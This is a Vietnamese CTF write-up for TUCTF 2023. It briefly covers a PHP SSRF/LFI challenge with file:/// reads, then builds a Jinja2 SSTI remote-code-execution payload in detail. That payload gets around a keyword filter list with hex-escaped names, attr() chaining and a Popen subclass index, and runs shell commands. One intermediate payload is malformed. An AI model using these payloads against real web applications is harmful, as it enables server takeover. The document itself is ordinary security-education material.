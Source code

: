 # TUCTF - 2023

# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled.png)

- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%201.png)

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%202.png)

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%203.png)

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%204.png)

- Tuy nhiên có vẻ như không hoạt động 😀

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%205.png)

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%206.png)

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%207.png)

- Voila!!, lúc này mình tiếp tục thử dùng `{{().**class**}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%208.png)

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```
().__class__
```

Tương đương với

```
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```jsx
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 

```jsx
()|attr('__class__')|attr('__base__')
```

nó sẽ tương tự như

```jsx
().**__class__**.**__base__**
```

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.

```jsx
{{().__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('whoami',shell=True,stdout=-1).communicate()}}
```

1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**

- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

```jsx
{{().__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('whoami',shell=True,stdout=-1).communicate()}}
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 

```jsx
{{().__class__.__base__.__subclasses__().__getitem__().**__class__**.**__base__**.**__subclasses__**()('whoami',shell=True,stdout=-1).communicate()}}
```

Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter

```jsx
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()}}
```

- Tuy nhiên ta lại nhận được kết quả như hình

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%209.png)

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...`

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**

```jsx
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','')}}
```

- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%2010.png)

- Lúc này ta dùng python để bruteforce để tìm được giá trị của subprocess.Popen

```python
import subprocess

# Thay thế bằng tên lớp cụ thể bạn đang quan tâm
target_class = subprocess.Popen

# Lặp qua tất cả các chỉ số
for i, cls in enumerate(().__class__.__base__.__subclasses__()):
    # Kiểm tra xem lớp hiện tại có phải là lớp bạn đang tìm kiếm không
    if cls == target_class:
        print(f"Tìm thấy {target_class} ở chỉ số: {i}")
        break
```

- ở bài này là 372, vậy payload cuối cùng của ta sẽ là

```python
{{().__class__.__base__.__subclasses__().__getitem__(372)('whoami',shell=True,stdout=-1).communicate()}}
```

- Để tránh filter

```jsx
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',shell=True,stdout=-1)|attr('communicate')()}}
```

![Untitled](TUCTF%20-%202023%201a1ad4f494a34e2f990b42e994190429/Untitled%2011.png)

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag :D